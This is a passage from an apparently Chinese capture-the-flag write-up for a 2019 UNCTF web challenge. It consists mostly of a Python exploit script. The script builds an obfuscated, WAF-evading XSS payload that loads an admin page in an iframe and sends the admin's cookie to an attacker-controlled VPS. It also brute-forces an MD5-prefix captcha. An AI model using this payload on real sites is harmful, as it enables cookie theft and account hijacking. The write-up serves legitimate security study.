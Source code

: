```
}

VPSIP = "123.206.21.178:8000"
URL = "http://123.206.21.178:8086/"


def fuck(p):
    code = "debug_by_virink"
    exp_loadjs = "<frameset onpageshow = console[`log`](self[`doc${\{name}}ument`][`write`](atob(`{}`)))>"
    exp = exp_loadjs.format(base64.b64encode(
        p.encode("utf-8")).decode("utf-8"))
    print("[+] Exp len : %d" % len(exp))
    print("[+] Exp : %s" % (exp))
    data = {
        "text": exp,
        "code": code
    }
    res = requests.post(URL, data=data, cookies=cookies)
    print("[+] Url : %s" % (res.url))


def get_cookie_flag():
    p = """<script>function v(){var d=document.getElementById("f").contentDocument;location.href=`//%s/?c=${escape(d.cookie)}`}</script><iframe id="f" src="/admin/admin.php" onload=v() ></iframe>""" % VPSIP
    fuck(p)

def baopo(x):
	code = ''
	strlist = itertools.product(string.letters + string.digits, repeat=4)
	for i in strlist:
		code = i[0] + i[1] + i[2] + i[3]
		encinfo = hashlib.md5(code).hexdigest()
		if encinfo[0:6] == x:
			print code
			break

if __name__ == "__main__":
    print("[+] Start")
    get_cookie_flag()
    baopo('74e9da')

```

图3 生成payload

1.  最后在vps上获取到admin的cookie，也就是flag，如下图4所示，或者也可以使用xss平台。

![](https://ctfwp.wetolink.com/2019unctf/superwaf/e3737b14892b4bd9f5bcd731250870c9.png)

图4 获取admin cookie
